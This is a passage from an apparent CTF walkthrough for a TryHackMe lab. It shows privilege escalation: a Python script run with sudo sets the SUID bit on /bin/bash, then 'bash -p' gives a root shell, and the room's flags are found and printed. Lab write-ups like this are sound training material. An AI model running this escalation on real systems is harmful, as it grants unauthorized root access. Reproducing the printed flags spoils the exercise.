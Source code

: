 Now, let's create a malicious python file:

```python
import os
os.system('chmod u+s /bin/bash')
```

Now, we can run the script as sudo:

```bash
sudo /usr/bin/python3 /home/cyber/run.py
```

If we check `/bin/bash`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425132224.png)

There we go, we can simply do:

```bash
/bin/bash -p
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425132249.png)

We can find all flags now, there are three flags on this CTF:

```
bash-4.3# find / -type f -name "*.txt" 2>/dev/null | head -n 3 
/home/cyber/flag1.txt
/home/yash/flag2.txt
/root/root.txt
```

```
bash-4.3# cat /home/yash/flag2.txt
THM{20c1d18791a246001f5df7867d4e6bf5}
```

```
bash-4.3# cat /root/root.txt
████████████████████████████████████
██                                ██
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██
████████████████████████████████████


						battery designed by cyberbot :)
						Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859



THM{db12b4451d5e70e2a177880ecfe3428d}
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425133033.png)

